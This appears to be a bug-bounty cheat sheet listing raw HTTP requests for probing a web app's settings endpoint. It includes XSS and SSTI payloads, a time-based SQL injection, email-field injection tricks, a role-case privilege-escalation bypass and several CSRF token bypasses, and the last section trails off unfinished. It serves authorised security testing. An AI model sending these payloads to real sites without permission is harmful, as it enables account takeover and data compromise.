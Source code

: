 ##### Null Payload Everywhere to get weird response
````
POST /settings

email, user, pass, or phone=NULL&token=csrf
````
##### Injecting XSS, SSTI payload in username or name field
````
POST /settings

username='''><svg/onload=prompt('xss');>{{7*7}}&token=csrf
    OR 
   only ssti payload in username
 username={{7*7}}
 
````
##### SQLI payload in Username field
````
POST /settings

username=' or sleep(20)'&token=csrf
````
##### If there is option to add second email, add with company email
````
POST /settings

email= any@company.com&action=add

email=samsec@gmail.com@company.com
email=any@burpcollaborator.net

````
##### CASE SENSITIVE IDORS [If Role change option is there and using admin throw no permission, try chaning case of admin to (Admin)]
````
POST /user/changeroles

{"id"=10,"role"="admin"}               response: {"error":"no_permission"}


change to 
{"id"=10,"role"="Admin"}                response: {"status":"OK"}
````
---------------------------------------------------------------------------------------------
#### - Try to remove CSRF token from the request and check if it works. And generate burp csrf POC
--------------------------------------------------------------------------------------------
##### Send empty token array in csrf token parameter
````
POST /settings

email=me@gmail.com&token[]=
````
##### Bypassing CSRF by changing request method from POST to GET
````
GET /settings?----------
--
--
--
````
